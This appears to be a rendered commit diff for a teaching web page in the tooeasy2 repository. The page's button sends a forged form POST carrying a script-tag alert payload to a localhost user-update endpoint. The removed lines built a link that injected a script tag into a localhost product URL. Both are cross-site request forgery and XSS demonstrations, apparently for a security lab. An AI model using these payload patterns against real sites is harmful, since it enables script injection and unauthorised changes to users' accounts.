

Before and after one commit to jrmcgarvey/tooeasy2, a website: page public/index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
fix for skillit

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -7,35 +7,29 @@
     <title>Click Me!</title>
 </head>
 <body>
-    <a id="naiveLink">Click this link!</a>
-    <br>
-    <br>
     <button id="runscript">Click Me!</button>
    <p id="message">You've clicked the button 0 times.</p>
    <script>
     document.addEventListener("DOMContentLoaded", () =>{
         const scripttag = "script"
-        const params = new URLSearchParams();
-        const hmessage = "\'You have been hacked!\'"
-        params.append("product", `<${scripttag}>alert(${hmessage})</${scripttag}>`)
-        const url = new URL("http://localhost:3000/restricted/product")
-        fullurl = url.toString() + "?" + params.toString()
-        const linkpoint = document.getElementById("naiveLink")
-        linkpoint.setAttribute("href",fullurl)
         let i=0;
         const button = document.getElementById("runscript");
         const message = document.getElementById("message");
         //console.log("button is", button)
-        const payload = [];
         const alertmsg = "\"Bad news, you have been hacked!\""
-        const badstuff = `This is the bad stuff: <${scripttag}>alert(${alertmsg})</${scripttag}>`
-        payload.push(`${encodeURIComponent("title")}=${encodeURIComponent("Surprise!")}`);
-        payload.push(`${encodeURIComponent("text")}=${badstuff}`);
-        const urlEncodedData = payload.join('&').replace(/%20/g, '+');
+        // console.log(alertmsg)
+        const badstuff = `<${scripttag}>alert(${alertmsg})</${scripttag}>`
+        console.log(badstuff)
+        const payload=(`${encodeURIComponent("phrase")}=${badstuff}`);
+        console.log(payload)
+        const urlEncodedData = payload.replace(/%20/g, '+');
+        console.log("urlencodeddata", urlEncodedData)
+        //const urlEncodedData = "xx"
+        // urlEncodedData = "phrase=<a href=\"http://localhost:3000\">dangerous link</a>"
 
         button.addEventListener("click", async () => {
             console.log("doing fetch")
-            fetch("http://localhost:3000/restricted/add-note",{
+            fetch("http://localhost:3000/user/update",{
                 method: "POST",
                 headers: {
                     'Content-Type': 'application/x-www-form-urlencoded'
```
